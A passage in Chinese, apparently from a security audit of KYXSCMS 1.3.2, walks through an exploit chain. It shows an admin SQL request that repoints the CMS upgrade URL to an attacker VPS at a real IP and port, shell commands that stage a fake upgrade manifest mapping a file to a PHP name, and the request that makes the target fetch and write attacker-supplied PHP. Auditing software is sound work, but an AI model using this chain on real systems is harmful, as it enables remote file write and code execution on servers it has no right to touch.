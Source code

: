 首先我执行SQL语句，让`Config::get('web.official_url')`可控：

```php
POST /admin/tool/sqlexecute.html

sql=update {pre}config set value  = 'http://118.31.168.198:39601' where id = 92
```



接着在自己的VPS上面写一下，我这里是在39601端口：

```shell
mkdir upgrade
cd upgrade
mkdir updata
cd upgrade
echo '{"0":{"file_name":"1.txt","stored_file_name":".feng.php"}}' > index.php
cd ../
cd ../
echo "<?php phpinfo();?>" > 1.txt
```

然后访问：

```
http://xxxxxxxx/admin/upgrade/update
```

即可成功写入：

![pic16](KYXSCMS1.3.2审计与测试.assets/pic16.png)
